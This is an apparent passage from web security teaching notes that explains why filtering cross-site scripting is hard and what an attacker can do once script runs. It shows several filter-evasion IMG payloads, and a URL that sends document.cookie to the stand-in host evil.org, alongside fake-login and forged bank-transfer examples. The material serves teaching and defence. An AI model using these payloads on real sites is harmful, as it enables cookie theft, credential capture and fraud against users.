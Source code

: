 ```html
<IMG SRC="javascript:alert('XSS');">
```
ah, maybe we look for javascript:

```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
ok, I can make it case sensitive:

```html
<IMG SRC="jav	ascript:alert('XSS');">
```
(this has an embedded tab but still works).  Ok I can get rid of whitespace before I scan.

```html
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

(the code is written as escaped characters).  Give in yet? (For more ways that can be used 
to defeat filters see the 
[OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)).

So while it is possible to filter HTML to sanitise user input it is very difficult to 
pick up all of the many ways that Javascript code can be included in a page.  All it takes
is one way in and the attacker has full control of the page on another user's system.

### Attacks with XSS

Once I am able to mount an XSS attack and load some Javascript into the page, what can I 
do that is truly evil?  

**Capture cookies** Javascript has access to cookies for the page it is running in, if that 
is something like Facebook or Ebay there is potential value in being able to 
impersonate a user and so having their cookies would allow me to do that.  I can use
Javascript to construct a URL like `'http://evil.org/cookiecapture?cookies='+document.cookie` and
then set `document.location` to this URL, the browser will immediately request
this URL and I would be able to capture their cookies _for the site I had infected_.  

**Password Capture** since Javascript can modify the entire page, I could replace
the current page with HTML designed to look like the login page for the site but
with the login form directed to `http://evil.org/passwordcapture`.  The user thinks
they have just been logged out, enters their login details (the URL still says they
are on the social media site) and they are sent to my site. My site redirects back 
to the original page and the user doesn't know they've lost their details.  I can then 
login as them at leisure. 

**Make purchases** if this is a commerce site and I've infected the reviews section
of the site, then the user might be authenticated on the site and if I'm lucky have
a credit card registered for purchases.  My Javascript code could make a request to purchase
something from the site by submitting the right combination of forms.  It might be
possible to have them delivered to my address or I might just want to annoy the 
user by racking up large purchases on their credit card. 

**Requests to other sites** while there are restrictions on what requests Javascript
can make, I might be able to arrange to send malicious requests to other sites by
adding elements to the page.  I could for example add a link to the page
with a URL like `https://yourbank.com/transfer_funds?to_account=9283208&amount=10000` and
hope that the user clicks on this link.  If they are logged in to their bank at the time
then this request would be sent with their current session cookie and if I'm lucky
the money will be transferred to me.  (This is a simplistic example but many sites support
some kind of transactional requests via URLs like this and could be exploited in this way).
